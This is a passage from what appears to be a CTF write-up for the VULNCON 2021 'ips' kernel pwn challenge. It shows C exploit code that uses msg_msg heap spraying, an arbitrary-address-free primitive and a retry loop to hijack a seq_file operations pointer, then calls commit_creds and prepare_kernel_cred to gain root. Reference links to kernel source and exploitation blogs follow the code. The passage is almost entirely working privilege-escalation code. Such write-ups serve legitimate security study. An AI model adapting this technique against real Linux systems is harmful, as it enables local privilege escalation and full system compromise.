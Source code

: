 ```c

    // Link the target fop strcut to msgmsg
    edit(-1,strcat(realloc(dp('\xff',2+8+8),0x80),p64(leaked_heap32+0x20-8)));
    
    //Prepare for possible refill
    msgQueueDel(msgid3);
    msgid3 = msgQueueCreate("/home/user/4");

    // AAF
    res = msgQueueRecv(msgid1,0xfd0+0x8,0);
    // Quick refill
    msgQueueSend(msgid3,"Refill3",0x50,ct++);

    size_t * verify = &res->mtext[0xfd0];
    int ccc = 1;
    int msgid = 0;
    if( (0xfff & (size_t)(*verify)) == 0xfd0)
        puts("[+] Good Luck!");
    else{
        // Build a retry loop will try to find a fop struct.
        while(1){
            
            puts("[!] Retry");
            // We can quickly refill it
            ccc++;
            edit(-1,strcat(realloc(dp('\xff',2+8+8),0x80),p64(leaked_heap32+0x20*ccc-8)));
            // Prepare
            msgid = msgQueueCreate(strcat(strdup("/home/user/"),str(ccc+0x67)));
            // AAF
            res = msgQueueRecv(msgid3,0xfd0+0x8,0);
            msgQueueSend(msgid,"Refillloop",0x50,ct++);
            msgid3= msgid;
            verify = &res->mtext[0xfd0];
            if( (0xfff & (size_t)(*verify)) == 0xfd0)
                break;
        }
    }
    // Refil the target
    hook[0] = getRootPrivilige;
    commit_creds = 0xffffffff8108a830-0xffffffff8120efd0+(*verify);
    prepare_kernel_cred = 0xffffffff8108aad0-0xffffffff8120efd0+(*verify);
    for(int s = 0; s<2;s++) // Tomake exploit more reliable
        msgQueueSend(msgid2,atk,0xfd0+0x18,6+s);
        
    
    // debug();    
    char win;
    for(int s = 3 ; s < 0x40+3;s++){
        read(s,&win,0x1);
    }
}
```


[1]: https://elixir.bootlin.com/linux/latest/source/fs/seq_file.c
[2]: https://elixir.bootlin.com/linux/latest/source/ipc/msg.c
[3]: https://duasynt.com/blog/linux-kernel-heap-feng-shui-2022
[4]: https://arttnba3.cn/2021/11/29/PWN-0X02-LINUX-KERNEL-PWN-PART-II/
[5]: https://github.com/sajjadium/ctf-archives/tree/0328b950496e5d12b775e8bd67d1569977ec10c0/ctfs/VULNCON/2021/pwn/ips